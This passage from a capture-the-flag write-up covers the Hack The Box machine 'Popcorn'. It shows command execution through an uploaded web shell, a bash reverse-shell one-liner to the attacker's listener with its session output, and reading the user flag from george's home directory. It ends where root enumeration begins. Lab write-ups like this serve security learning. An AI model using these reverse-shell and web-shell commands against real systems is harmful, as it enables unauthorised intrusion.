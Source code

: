 Opening the file and adding `?cmd=whoami` to the url we get command execurion.

![](https://github.com/Leo-2807/Writeups/blob/main/images/popcorn14.png)

I used [cyberchef](https://gchq.github.io/CyberChef/) to urlencode the reverse shell `bash -c 'bash -i >& /dev/tcp/10.10.14.3/4444 0>&1'` and started a nc listner .

```bash
┌──(kali㉿kali)-[~/Downloads/hackthebox/popcorn]
└─$ nc -lvnp 4444              
listening on [any] 4444 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.6] 49517
bash: no job control in this shell
www-data@popcorn:/var/www/torrent/upload$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## USER.TXT

Turns out that user.txt in user george's home directory have read permission.

```bash
www-data@popcorn:/var/www/torrent$ ls -la /home/george
ls -la /home/george
total 868
drwxr-xr-x 3 george george   4096 Oct 26  2020 .
drwxr-xr-x 3 root   root     4096 Mar 17  2017 ..
lrwxrwxrwx 1 george george      9 Oct 26  2020 .bash_history -> /dev/null
-rw-r--r-- 1 george george    220 Mar 17  2017 .bash_logout
-rw-r--r-- 1 george george   3180 Mar 17  2017 .bashrc
drwxr-xr-x 2 george george   4096 Mar 17  2017 .cache
-rw------- 1 root   root     1571 Mar 17  2017 .mysql_history
-rw------- 1 root   root       19 May  5  2017 .nano_history
-rw-r--r-- 1 george george    675 Mar 17  2017 .profile
-rw-r--r-- 1 george george      0 Mar 17  2017 .sudo_as_admin_successful
-rw-r--r-- 1 george george 848727 Mar 17  2017 torrenthoster.zip
-rw-r--r-- 1 george george     33 Oct 19 14:49 user.txt
``` 

```bash
www-data@popcorn:/home/george$ cat user.txt
cat user.txt
6ceb22d915ac105ed29fc4c58091dae4
```

## ROOT.TXT

Enumerating the user george I found the file which I haven't seen before.
